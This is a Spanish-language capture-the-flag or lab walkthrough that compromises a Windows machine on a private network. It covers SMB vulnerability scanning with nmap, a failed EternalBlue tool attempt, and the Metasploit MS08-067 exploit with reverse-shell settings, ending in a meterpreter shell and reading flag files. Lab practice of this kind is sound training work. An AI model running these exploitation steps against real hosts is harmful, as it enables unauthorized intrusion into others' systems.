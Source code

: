 
IP local: 10.0.22.4<br>
IP remota: 10.0.22.6 <br>
***Abrimos consola***
- netdiscover -r 10.0.22.0/24
	- *Descubrimos que ip sale que no es usual*	
- nmap -p445 --script="smb-vuln-*" 10.0.22.6
- **PROBAMOS EL WIN7BLUE**
- cd /home/user/Desktop/Win7Blue
- chmod +x Win7Blue
- ./Win7Blue
	- $:1
	- RHOST: (Ip remota u del objeto)
- ./Win7Blue
	- $: **4** (o 3, dependiendo de la arquitectura del sistema)
	- RHOST: (ip remota u objetivo)
	- LHOST(ip local, ya sea kali o host usado)
	- LPORT: (puerto en escucha de la consola abierta)
	- *Darle a enter*
- Vemos que no funciona este método, así que recurrimos al otro con el metasploit:


- Buscamos la vulnerabilidad con el comando nmap:
- nmap -p445 --script="smb-vuln-*" 10.0.22.6
- ![Pasted image 20241009183608](https://github.com/user-attachments/assets/c32e00df-f754-439f-b292-147c71c84497)
  
- searchsploit MS08-067
- ![Pasted image 20241009183946](https://github.com/user-attachments/assets/76787312-2e7d-461b-9938-ff3b39777006)
  
- msfconsole
- search MS08-067
- use 0
- show options
- ![Pasted image 20241009184040](https://github.com/user-attachments/assets/74143a1e-1cad-4415-a660-cd2d161043d6)
  
-  set rhosts 10.0.22.6
- show options
- ![Pasted image 20241009184121](https://github.com/user-attachments/assets/85a24e73-9f71-4821-912c-92b66427865b)
  
- Exploit:
	- En este caso, no funciona ya que no se puede llegar, así que se hará una modificación de los puertos locales:
	- ![Pasted image 20241009184247](https://github.com/user-attachments/assets/030cc503-5ac2-4686-84cf-9913dff3e508)
   
- Exploit:
	- De nuevo no funciona, así que le cambiamos de nuevo el puerto:
	- ![Pasted image 20241009184353](https://github.com/user-attachments/assets/f475be53-419b-4c72-8aca-eb027f1e5973)
   
- Exploit
	- En este caso, ya ha funcionado.
- *Cuando sale el meterpreter:*
- shell
- **En este momento, ya hemos entrado al shell de la máquina vulnerable**
- dir
- dir C:\\![Pasted image 20241009184547](https://github.com/user-attachments/assets/7c56b549-809d-408b-986c-a80c155c524f)
  
- cd C:\\Documents and Settings
- dir C:\\Documents and Settings![Pasted image 20241009184616](https://github.com/user-attachments/assets/47891447-2c1e-4969-86f5-89854f5c1183)
  
- cd C:\\Documents and Settings\\bill
- dir C:\\Documents and Settings\\bill![Pasted image 20241009184654](https://github.com/user-attachments/assets/80200e24-3665-4b5d-bd2b-996a908a15c9)

- C:\\Documents and Settings\\bill\\Desktop![Pasted image 20241009184712](https://github.com/user-attachments/assets/b06888e4-266f-4ed0-a7c2-9f1e4207452a)

- type root.txt
- type user.txt
- ![Pasted image 20241009184745](https://github.com/user-attachments/assets/13cc4202-a09a-443a-b075-1d27c90ef032)




